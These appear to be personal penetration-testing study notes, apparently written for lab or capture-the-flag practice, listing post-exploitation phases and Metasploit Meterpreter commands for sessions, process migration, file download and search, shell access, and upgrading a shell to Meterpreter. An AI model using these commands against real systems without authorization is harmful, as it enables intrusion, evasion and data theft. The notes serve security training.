# POST EXPLOITATION

The post exploitation phase of a penetration test consists of various techniques like:
+ Local Enumeration
+ Privilege Escalation
+ Dumping Hashes
+ Establishing Persistence
+ Clearing Your Tracks
+ Pivoting


# Meterpreter

- The Meterpreter (Meta-Interpreter) payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect.  

- It communicates over a stager socket and provides an attacker with an interactive command interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more.  

- Meterpreter also allows us to load custom script and plugins dynamically.  

- MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture.  


## CMD
Meterpreter commands (CMD) allow interaction with the target system, including system info retrieval, process migration, file management, and environment inspection.

>sysinfo  
Displays system information of the target machine.  

>getuid  
Shows the user that the Meterpreter server is running as.  

>help  
Lists all available Meterpreter commands.  

>background  
Backgrounds the current session without terminating it.  

>exit  
Terminates the current Meterpreter session.  

>sessions  
Shows all active sessions.  

>sessions -h  
Displays help menu for the `sessions` command.  

>sessions -c sysinfo -i 1  
Runs the `sysinfo` comm and on session 1.  

>sessions -l  
Lists all available sessions.  

>sessions -n xoda -i 1  
Renames session 1 as "xoda".  

>sessions xoda  
Interacts with the session named "xoda".  

>edit flag1.txt  
Opens the file `flag1.txt` in the default editor.  

vim exit -> :qe  
Exits from vim editor with `:qe`.  

>download flag5.zip /root/flags/flag5  
Downloads `flag5.zip` to `/root/flags/flag5`.  

>unzip flag5.zip  
Extracts the contents of `flag5.zip`.  

>checksum md5 /bin/bash  
Calculates the MD5 checksum of `/bin/bash`.  

>getenv PATH  
Displays the value of the PATH environment variable.  

>getenv TERM  
Displays the value of the TERM environment variable.  

>search -d /usr/bin -f *backdoor*  
Searches `/usr/bin` for files containing "backdoor" in their name.  

>search -f *.jpg  
Searches for all `.jpg` files on the system.  

>search -f *.php  
Searches for all `.php` files on the system.  

>download flag1  
Downloads the file `flag1` to the local machine.  

>ps (name, user , path)  
Lists running processes (with name, user, and path).  

>migrate 875  
Migrates the Meterpreter process to PID 875.  

>execute -f ifconfig  
Executes the `ifconfig` command on the target system.  
```bash
if you want to pop a shell 
	if windows
	>shell
	pop command prompt session
	
	if linux 
	>shell
	terminal session
```	
### bash session how?
### /bin/bash -i

# UPGRADING COMMAND SHELL TO METERPRETER SHELL

>/bin/bash -i
\
to shell to bash session
type cmd/unix
>search shell_to_meterpreter

### multi/manage/shell_to_meterpreter
```bash
 in one cmd without using moldule
 ```
 >SESSIONS -U -1
 OR
 >SESSIONS -U 1










